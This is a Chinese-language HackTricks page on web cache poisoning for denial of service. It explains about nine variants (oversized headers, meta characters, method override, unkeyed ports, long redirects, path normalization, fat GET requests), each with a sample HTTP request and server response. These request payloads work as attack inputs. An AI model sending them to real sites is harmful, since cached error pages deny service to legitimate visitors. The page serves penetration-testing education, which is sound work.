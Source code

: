 # Cache Poisoning to DoS

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

{% hint style="danger" %}
在此页面中，您可以找到不同的变体，以尝试使 **Web 服务器对有效的缓存服务器请求** **响应错误**。
{% endhint %}

* **HTTP Header Oversize (HHO)**

发送一个请求，头部大小大于 Web 服务器支持的大小，但小于缓存服务器支持的大小。Web 服务器将以 400 响应进行响应，该响应可能会被缓存：
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

发送一个包含一些 **有害元字符** 的头，例如  和 。为了使攻击有效，您必须首先绕过缓存。
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
一个配置错误的头部可能只是 `\:` 作为头部。

如果发送了意外的值，这也可能有效，比如意外的 Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **未键入的头部**

一些网站如果在请求中**看到某些特定的头部**，例如带有 _X-Amz-Website-Location-Redirect: someThing_ 头部时，会返回错误状态码：
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP 方法覆盖攻击 (HMO)**

如果服务器支持通过 `X-HTTP-Method-Override`、`X-HTTP-Method` 或 `X-Method-Override` 等头部更改 HTTP 方法。可以请求一个有效的页面，改变方法使得服务器不支持，从而导致错误的响应被缓存：
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **未键入端口**

如果主机头中的端口在响应中被反射且未包含在缓存键中，则可以将其重定向到未使用的端口：
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **长重定向 DoS**

如以下示例所示，x 没有被缓存，因此攻击者可以利用重定向响应行为，使重定向发送一个如此大的 URL 以至于返回错误。然后，试图在没有未缓存的 x 密钥的情况下访问该 URL 的人将收到错误响应：
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **主机头部大小写规范化**

主机头部应该是不区分大小写的，但某些网站期望它是小写的，如果不是则返回错误：
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **路径规范化**

某些页面在路径中发送数据 URLencode 时会返回错误代码，但缓存服务器会对路径进行 URLdecode 并存储 URLdecoded 路径的响应：
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

一些缓存服务器，如 Cloudflare，或 web 服务器，停止带有主体的 GET 请求，因此这可能被滥用来缓存无效响应：
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## 参考文献

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
